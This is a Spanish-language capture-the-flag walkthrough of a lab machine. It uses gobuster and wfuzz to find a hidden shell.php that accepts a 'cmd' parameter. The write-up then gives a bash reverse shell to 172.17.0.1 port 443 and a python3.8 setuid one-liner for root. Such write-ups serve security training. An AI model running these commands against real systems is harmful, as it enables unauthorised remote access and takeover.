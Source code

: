 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![image](https://github.com/user-attachments/assets/fa52b375-21db-4e37-ba73-7f084d8819ad)

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![image](https://github.com/user-attachments/assets/cc37c0ec-1178-459b-9fb0-b2beaa6972cf)

un hidden

![image](https://github.com/user-attachments/assets/8c6d7b64-cdc8-41c0-811e-0958c74cf18f)

probamos el hidden con el shell.php que nos mostro el código fuente

![image](https://github.com/user-attachments/assets/5dd5347d-f21e-4cd5-8272-344c9ecb92a5)

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![image](https://github.com/user-attachments/assets/50acadca-4f51-4466-b7f4-c1c2d14e4961)

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![image](https://github.com/user-attachments/assets/c74fd070-2629-4a38-ad66-f5671360fa6a)

ahora escalamos a root, encontramos esto

![image](https://github.com/user-attachments/assets/26c80f9d-01b1-48f3-8a1e-2c60e26806b9)

igual encontramos esto

![image](https://github.com/user-attachments/assets/7ac94d96-6ad7-42ed-97b3-5478c932b5e4)

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![image](https://github.com/user-attachments/assets/7e3c623f-03dd-4e78-9230-e11cfeb2c7e5)

y somos root! 

